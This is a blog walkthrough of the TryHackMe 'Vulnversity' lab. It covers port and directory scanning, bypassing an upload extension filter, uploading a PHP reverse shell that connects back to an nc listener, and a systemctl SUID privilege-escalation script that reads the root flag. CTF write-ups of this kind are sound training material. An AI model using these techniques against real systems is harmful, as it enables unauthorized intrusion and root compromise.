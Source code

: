 ```yaml
---
date: 2020-04-30 11:50:55
layout: post
title: "Vulnversity Try Hack Me Walkthrough"
subtitle:
description: Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. Vulnversity stands for Vuln University (I Guess).
image: /assets/img/uploads/vulnversity/vulnversity.jpg
optimized_image: /assets/img/uploads/vulnversity/vulnversity.jpg
category: walkthrough
tags: tryhackme boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnversity, vulnversity try hack me, vulnversity walkthrough, infosec articles, tryhackme walkthrough, vulnversity writeup
---
```


Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. This box covers some basics of enumeration, exploiting the file upload vulnerability and then exploiting SUID bits. Lets Begin!

### Enumerating and Initial Access

We begin our enumeration by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -oA nmap/vulnversity 10.10.160.174

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.160.174 
Host is up (0.26s latency).      
Not shown: 994 closed ports                                              
PORT     STATE SERVICE     VERSION                                                             
21/tcp   open  ftp         vsftpd 3.0.             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey                                                                  
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA) 
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
```

We see an Apache Web Server running on port 3333. Let's fire up our browser and see what we have there.

<center><br>
<img src="/assets/img/uploads/vulnversity/port3333.png">
</center>

Next, we will be running a gobuster scan searching for the directories.

```r
m1m3@kali:~$ gobuster dir -u http://10.10.160.174:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================      
Gobuster v3.0.1                                          
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) 
===============================================================                      
[+] Url:            http://10.10.160.174:3333 
[+] Threads:        10               
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt              
[+] Status codes:   200,204,301,302,307,401,403  
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

We found some directories. Opening the '/internal/' directory, provides us with some upload functionality!

<center><br>
<img src="/assets/img/uploads/vulnversity/internal.png">
</center>

 The first thing that we need to check in upload options is the extension type. To fuzz the extensions we will use BurpSuite. It has a nice feature called intruder which can do the job in an automated fashion.

First we need to upload a file (doesn’t really matter which file) and capture the request with BurpSuite proxy. After that right click on the request and choose send to intruder. Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so: 

<center><br>
<img src="/assets/img/uploads/vulnversity/request.png">
</center>


Now add the extensions to the list in the Payload tab and disable the <i>payload encoding</i> option.

<center><br>
<img src="/assets/img/uploads/vulnversity/intruder.png">
</center>



As we can see .phtml returns 'Success'. This is the extension we will be using with our webshell.
<center><br>
<img src="/assets/img/uploads/vulnversity/attack.png">
</center>

I will use the webshell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php"> pentest monkey,</a> you can use any shell you like, change the IP and port in the shell and upload it to the server. After uploading, we can find it at /internal/uploads/.

```r
m1m3@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.5.61] from (UNKNOWN) [10.10.160.174] 43684
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:15:00 up  2:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ 
```

And we managed to get into the server. Now we can read the user.txt!

```r
www-data@vulnuniversity:/$ cd /home/bill
cd /home/bill
www-data@vulnuniversity:/home/bill$ wc -c user.txt
wc -c user.txt
33 user.txt
www-data@vulnuniversity:/home/bill$ 
```

### Privilege Escalation
This task is a little bit challenging. For this we need to exploit the SUID bits. Let's first look for the SUID bit set.

```r
www-data@vulnuniversity:/bin$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
...
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
...
```

Looking at the output of the command, we can see that systemctl had a suid bit active. Searching on the <a href="https://gtfobins.github.io/gtfobins/systemctl/">GTFO Bins,</a> I found that we can exploit systemctl for privilege escalation. Copy and execute the following script into the /bin directory.

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

This will write the output /root/root.txt into the /tmp. If we see in the /tmp directory, we can see a file named output, which is our flag!

```r
www-data@vulnuniversity:/bin$ wc -c /tmp/output
wc -c /tmp/output
33 /tmp/output
www-data@vulnuniversity:/bin$ 
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Try Hack Me walkthroughs!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://swadeillustration.com">Swade.</a>